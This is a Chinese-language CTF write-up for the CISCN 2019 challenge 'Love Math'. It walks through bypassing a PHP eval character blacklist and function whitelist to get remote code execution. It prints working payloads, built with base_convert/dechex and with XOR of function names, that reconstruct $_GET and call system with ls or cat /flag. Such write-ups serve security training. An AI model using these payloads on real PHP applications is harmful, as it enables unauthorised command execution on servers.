



# [CISCN 2019 初赛]Love Math

## 知识点

`白名单函数构造RCE`

`php代码审计`

## 解题

```php
$blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
```

发现黑名单字符不包含`^`和`.`，同时长度限制在`80`个字符以内

- **动态函数**
  `php`中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数
  例如：`$function = "sayHello";$function();`

- **php中函数名默认为字符串**
  例如本题白名单中的`asinh`和`pi`可以直接异或，这就增加了构造字符的选择

### 1. 方法一

我们想要执行的命令为`system(ls)`，可以通过`动态函数`的方式和`php中函数名默认为字符串`，比如设置白名单的`pi`的值为`_GET`,那么就可以赋值到`pi`变量中绕过过滤正常传值

```php
$$pi 	// $_GET
($$pi)(pi)		// $_GET[pi]
($$pi)(cos)		// $_GET[cos]

// 那么我们组合起来执行命令
($$pi){pi}(($$pi){cos})		// $_GET[pi]($_GET[cos])

这个时候传 pi=system&cos=ls 就可以了
```

现在就是让`$pi`的值为`_GET`，我们用白名单来转,因为`bindec`用不了,我用`bin2hex`，但是`bin2hex`不在`白名单`，我用`base_convert`转出来`hex2bin`

```php
<?php

$b2h = bin2hex("_GET");
echo 'bin2hex("_GET")' . " ==> $b2h";
echo '<br />';
$hd = hexdec($b2h);
echo 'hexdec(bin2hex("_GET"))' . " ==> $hd";

echo '<br />';
echo "hex2bin(dechex(1598506324)) ==> " . hex2bin(dechex(1598506324));

echo '<br />';
echo 'base_convert("hex2bin",36,10) ==> ' . base_convert("hex2bin", 36,10);

echo '<br />';
echo 'base_convert(37907361743,10,36) ==> ' . base_convert(37907361743, 10,36);

echo '<br />';
echo 'base_convert(37907361743,10,36)(dechex(1598506324)) ==> ' . base_convert(37907361743,10,36)(dechex(1598506324));
```

所以构造`payload`

```php
c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){cos})&pi=system&cos=ls
```



### 2. 方法二

因为`^`和`.`没有被禁用，我们直接用这两个字符来`fuzz`

```php
<?php
$white = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
for($i=1;$i<=sizeof($white);$i++){
    for ($j=0; $j < 9 ; $j++) { 
        for ($k=0; $k < 9 ; $k++) { 
            $exp = $white[$i] ^ $j . $k;
            if ($exp === '_G') {
                echo "$white[$i] ^ ($j) . ($k) ==> $exp";
                echo "<br />";
            } else if ($exp === 'ET'){
                echo "$white[$i] ^ ($j) . ($k) ==> $exp";
                echo "<br />";
            }
        }
    }
}
```



我们随便挑两个组合起来就行

```php
c=$pi=(is_finite^(6).(4)).(rad2deg^(7).(5));($$pi){pi}(($$pi){cos})&pi=system&cos=cat /flag
```



### 3. 方法三

或者直接`cat /flag`，[方法](https://www.cnblogs.com/20175211lyz/p/11588219.html)